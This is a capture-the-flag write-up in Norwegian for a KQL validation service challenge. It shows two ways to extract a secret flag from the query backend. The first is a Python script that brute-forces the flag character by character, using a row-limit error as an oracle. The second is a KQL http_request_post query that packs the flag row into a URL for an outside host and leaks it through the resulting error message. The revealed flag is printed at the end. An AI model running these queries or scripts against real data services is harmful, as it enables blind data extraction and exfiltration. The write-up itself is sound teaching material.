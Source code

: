 ## KQL VALIDATION SERVICE

### Løsning

Vi tar utgangspunkt i en prompt vi utledet for å løse forrige oppgave:

```kql
search * | where * contains "$$" and * contains "}"
```

Etter litt testing finner vi en feilmelding som kan utnyttes for å røpe data:

```
Query execution has exceeded the allowed limits (80DA0003): The results of this query exceed the set limit of 500 records
```

Vi utnytter grenseverdien på 500 rader og bruker en loop som returnerer mer 501 rader dersom den klarer å finne starten på flagget i databasen. pack_all kombinerer alle kolonnene til én, toscalar konverterer første rad til en string (vi har bare én rad):

```kql
range n from 1 to toscalar(search * | where * contains "ept{" | count)*501 step 1
```

Feilmeldingen dukket opp også denne gangen. Det tyder på at vi kan finne flagget på denne måte. Dette kan scriptes for å bruteforce én og én bokstav:

```py
import requests
import string

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ":
            # Use replace placaolder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, headers={"content-type": "application/json"}, json={ "query": query_to_run})

            if response.status_code == 400:
                word += letter
                print(word)
                if(letter == "}"): return word
                break
            else:
                print(letter)

brute("https://_uniqueid_-kqlvalidation.ept.gg/validate_kql", 'range n from 1 to toscalar(search * | where * contains "$$" and * contains "}" | count)*501 step 1', "EPT{6x+jd$")
```

Dette er en teoretisk løsning som ville fungert for korte flagg. Dessverre viste flagget seg å være for langt til å løse på denne måten. Dette er fordi det er lagt inn et internt delay på websiden som tvinger siden til å holde igjen i minst 3 sekunder før vi får svar. Den teoretiske tiden det ville tatt å finne flagget på denne måten vil derfor være:

```py
possibilities = len(string.digits + string.ascii_lowercase + "<>,./:*@'+-$_-?!}= ") # Antall tegn
time_pr_try = 3 # sekunder pr test
avg_time_pr_char = possibilities/2 * 3
flag_len = 188 - len("ept{" + "}") # (fant flagget på en annen måte senere, så vi vet lengden)
total_time = flag_len * avg_time_pr_char
```

Total tid blir 15097s eller 4t 11min.

Og ikke en gang da kan vi garantere at vi har rett, fordi søket kun matcher bokstaver i lowercase, så om det ikke blir akseptert av CTFd vil vi ikke få rett.


## Løsning 2

En annen løsning (antar at dette er mer som intended) er å utnytte at vi har plugins for å sende http requests. Det vet vi fordi det står under `/cluster_policies` på websiden.

Her kan vi enten velge å sette opp en server for å ta imot requesten, eller vi kan lage en request som feiler etter at vi har funnet flagget slik at flagget blir med i feilmeldingen.

Først henter vi ut raden som inneholder flagget og gjør det om fra en tabellentry til en string:

```kql
toscalar(search * | where * contains "ept{" and * contains "}" | project p = pack_all())
```

Så setter vi stringen inn som parameter i en request vi vet kommer til å feile:

```kql
evaluate http_request_post(
    strcat(
        "http://dum.my?", toscalar(search * | where * contains "ept{" and * contains "}" | project pack = pack_all())
    )
)
```

Som vi ser får vi flagget tilbake i en feilmelding, altså trenger vi aldri å sende requesten:

![alt text](image.png)

<details>
<summary>Flagg</summary>

`EPT{6X+Jd$>this_is_A_v3ry_long_fl4g_d0nt_try_to_brute_force_itt=B+----J-P.=pEv'GvAJ$aFdyRia.ABjwgv_7'j7''FY*I'JI,z@K1dvPLE@>R9!6x3O4hYG_5!/HnD/gt_g::S9'IgD'5@vbBfAcUOrv'u<4O=$,'IE./=DY$RX}`
</details>